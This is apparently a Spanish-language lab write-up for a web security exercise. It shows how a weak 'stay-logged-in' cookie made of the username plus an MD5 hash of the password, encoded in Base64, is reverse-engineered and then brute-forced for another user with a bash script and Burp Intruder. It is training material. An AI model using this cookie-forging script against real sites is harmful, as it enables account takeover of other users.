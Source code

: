 
## Objetivo:

![[Pasted image 20240605204549.png]]

## Solucion:

Iniciamos sesión con nuestra cuenta y marcamos la opción "Permanecer Conectado" y lo enviamos al Repeater

![[Pasted image 20240605204918.png]]

Vemos que nos devuelve una cookie llamada "stay-logged-in"

![[Pasted image 20240605205720.png]]

La decodificamos en Base64

![[Pasted image 20240605205831.png]]

Vemos que luego de los dos puntos (:) nos devuelve algo y es un hash en "md5" entonces intentamos romper este hash por fuerza bruta.

Y como vemos resulta que es nuestra contraseña... Ya con esto podemos decir que tenemos bien estudiada la forma en como se crea dicha cookie. En este caso es ***"nombreUsuario:contraseñaEnHashMd5" y luego todo eso convertido en Base64***

![[Pasted image 20240605210041.png]]

Intentaremos crear esto para estar seguros... Y como vemos al seguir este patron llegamos al mismo valor de la cookie "d2llbmVyOjUxZGMzMGRkYzQ3M2Q0M2E2MDExZTllYmJhNmNhNzcw"

![[Pasted image 20240605210432.png]]


Ahora solo faltaria crear muchas cookies pero esta vez con el usuario "carlos" siguiente éste patron pero utilizando la lista de contraseñas de un diccionario... Pero para automatizar esto hice un script que copiara la lista de cookies en el clipboard, pero esto lo usaremos mas adelante

![[Pasted image 20240605214823.png]]

```
archivo="pass.txt"

cookies="listaCookies.txt"

  

if [ ! -f "$archivo" ]; then

echo "El archivo $archivo no existe"

exit 1

fi

  

if [ ! -f "$cookies" ]; then

echo "[*] Creando archivo $cookies"

touch $cookies

echo "[!] Archivo $cookies creado!"

fi

  
  

while IFS= read -r linea; do

pass=$(echo -n "$linea" | md5sum | cut -d "-" -f 1 | cut -d ' ' -f 1)

pass=$(echo "carlos:$pass")

pass=$(echo -n "$pass" |base64)

echo $pass >> listaCookies.txt

done < "$archivo"

  

echo "[*] Copiando listado de Cookies desde $cookies"

cat $cookies | xclip -selection clipboard

echo "[!] Cookies copiadas con exito"
```


Entramos a "My account" y lo enviamos al Intruder

![[Pasted image 20240605215004.png]]

Ponemos el Tipo de Ataque a "Sniper", agregamos como varaible el valor de la cookie "stay-logged-in" y cambiamos el "id" del param de la ruta a "carlos"... Cerramos la sesión del usuario "wiener" (nuestro usuario)

![[Pasted image 20240605215134.png]]

Y lanzamos el ataque

En este caso vemos que nos devolvio un status 200, igualmente yo le aplique un Grep pero no es necesario... Ahora solo tendriamo que dar click derecho y en la peticion y luego en "Request in browser" y luego en "In original session", copiamos y pegamos eso en el el navegador...

![[Pasted image 20240605220928.png]]

![[Pasted image 20240605221203.png]]

